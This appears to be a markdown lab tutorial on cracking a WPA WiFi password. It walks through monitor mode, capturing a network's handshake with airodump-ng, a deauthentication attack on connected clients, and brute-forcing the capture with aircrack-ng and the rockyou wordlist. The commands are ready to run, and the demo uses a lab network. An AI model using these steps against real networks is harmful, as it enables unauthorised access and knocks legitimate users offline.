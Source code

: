 
File downloading link : [wifi.zip](https://anir0y-my.sharepoint.com/:u:/g/personal/mail_anir0y_in/EXXoDpgEAVRGn_U9RpSpZvMBhOfntuD7icPBeJoa6JKfaA?e=3NG2q2)

---
## Start with finding networks nearby 

command '`airmon-ng  start wlan0`'

![[Pasted image 20240720192931.png]]


## 2. start scanning network nearby 

`sudo airodump-ng wlan0`

![[Pasted image 20240720193103.png]]

You'll see the information like this, now for this demo we will be using **LabWiFi**

we need few information for our next 2 commands: 

```
BSSID - BC:8A:E8:0C:30:29
Channel - 11 
```

now we will start monitoring all wifi network traffic for this WiFi network and also try to `deauth` users, so we can get the encrypted password packet; refer to EAPOL packet.

### 3.1.a monitoring and writing data

command `sudo airodump-ng -c 11 --bssid BC:8A:E8:0C:30:29 wlan0 -w ~/Desktop/labwifi`

- airodump-ng - program
- `-c` - Channel number 
- `-a` - the BSSID
- `-w` - the file name where we will be writing the data

![[Pasted image 20240720193755.png]]
## 3.2 De-auth attack

All set for a de-auth attack, so when device tries to auto reconnect we can get the hashed password. 

![[Pasted image 20240720194146.png]]

## 3.3 We got the Hash

![[Pasted image 20240720194302.png]]

# 4. verify the data

we will be using **wireshark** and filter the result for `eapol` packets, as we can see here we got the packets that contains the hashed password.

![[Pasted image 20240720194351.png]]

## 5. let's get cracking 

we will be using `aircrack-ng` to brute-force the hash we collected. 

extra steps: 
1. goto dir `cd /usr/share/wordlists`
2. unzip `sudo gzip -d rockyou.txt.gz`

Run the following command 

```bash
aircrack-ng /home/kali/Desktop/labwifi-01.cap -w /usr/share/wordlists/rockyou.txt 
```

- aircrack-ng - the program
- the file location & file name `/home/kali/Desktop/labwifi-01.cap`
- `-w` - the wordlist 

## 5.1 starting brute-force 
![[Pasted image 20240720195128.png]]

## 5.2 cracked 

![[Pasted image 20240720195147.png]]


---
# Troubleshooting 
## 1. device not working

sometimes this happens. just run the following command to fix it: 
`sudo airmon-ng check kill`

![[Pasted image 20240720192756.png]]

Killing the process using our device: 

![[Pasted image 20240720192844.png]]